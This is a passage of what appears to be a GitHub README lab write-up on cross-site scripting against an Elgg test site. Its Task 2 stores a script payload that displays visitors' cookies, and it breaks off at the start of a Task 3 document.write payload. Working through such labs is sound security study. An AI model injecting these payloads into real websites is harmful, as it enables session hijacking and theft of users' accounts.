    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">And save it.</p>
<p dir="auto">Now, access <a href="http://www.xsslabelgg.com/profile/alice" rel="nofollow">http://www.xsslabelgg.com/profile/alice</a> from either the server or the attacker, an alert prompts:</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<h1 dir="auto"><a id="user-content-task-2" class="anchor" aria-hidden="true" href="#task-2"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 2</h1>
<p dir="auto">Edit the <code>Brief description</code> module and save:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span>
  <span class="pl-en">alert</span><span class="pl-kos">(</span><span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-c1">cookie</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
  alert(document.cookie);
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">When accessing the profile page, it will show the cookie of the log-in user.</p>
<p dir="auto">When Boby opens the page, it will be</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<p dir="auto">For Alice herself:</p>
<p>Screenshoot in cross-site-scripting Folder</p>
<h1 dir="auto"><a id="user-content-task-3" class="anchor" aria-hidden="true" href="#task-3"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 3</h1>
<p dir="auto">Edit the <code>Brief description</code> as:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span>
  <span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-en">write</span><span class="pl-kos">(</span>